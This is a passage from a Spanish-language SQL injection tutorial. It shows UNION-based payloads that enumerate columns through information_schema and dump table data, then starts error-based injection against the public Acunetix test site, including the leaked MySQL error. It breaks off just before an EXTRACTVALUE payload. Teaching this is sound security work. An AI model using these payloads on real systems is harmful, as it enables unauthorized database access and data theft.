 **Enumeracion de columnas**

Supongamos que la consulta anterior nos dio una tabla que se llama ```besto_waifus```, entonces para sacar sus columnas se usaria:

```sql
1' UNION SELECT column_name, null, null FROM information_schema.columns WHERE table_schema="waifus" AND table_name="besto_waifus"-- -
```

Donde:
- ```column_name``` son las columnas de la tabla
- ```table_schema``` es la base de datos
- ```table_name``` es la tabla

**Mostrando los datos**

Supongamos que la anterior consulta nos arrojo que tiene las columnas ```nombre``` y ```anime```, asi que para mostrar esos datos podriamos usar:

```sql
1' UNION SELECT null, null, CONCAT(nombre, anime) FROM besto_waifus-- -
```

**Mostrando los datos de otra base de datos**

En todo caso de que estemos enumerando las tablas y columnas de una base de datos diferente a la que esta en uso, y queremos mostrar los datos de una tabla, podriamos usar lo siguiente

```sql
1' UNION SELECT null, null, CONCAT(nombre, anime) FROM waifus.besto_waifus-- -
```

Donde:
- ```waifus``` es la base de datos
- ```besto_waifus``` es la tabla

### Error-based SQL injection

Lab: [Acunetix](http://testphp.vulnweb.com/listproducts.php?cat=1)
(El numero total de columnas es 11)

La idea de las error-based es ocasionar a proposito un error, de tal forma, que podamos usar ese error para sacar informacion de la base de datos

La forma mas facil de ocasionar un error es agregando una comilla al final de la consulta, y el URL quedaria algo asi ```http://testphp.vulnweb.com/listproducts.php?cat=1'```, donde el resultado es:

***Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1 Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /hj/var/www/listproducts.php on line 74***

Con esto sabemos que se esta usando MySQL como gestor, que ocasiono el error, donde lo ocasiono, y como extra nos muestra el directorio de un recurso: ```/hj/var/www/listproducts.php```

##### Enumerando la base de datos

**Obteniendo el nombre de la base de datos**

Podemos hacer uso de la funcion ```EXTRACTVALUE()``` la cual toma dos argumentos, una cadena de marcado XML y una expresion XPath. cuando se usa ```EXTRACTVALUE()``` lo que regresa es un texto. Usaremos el payload:
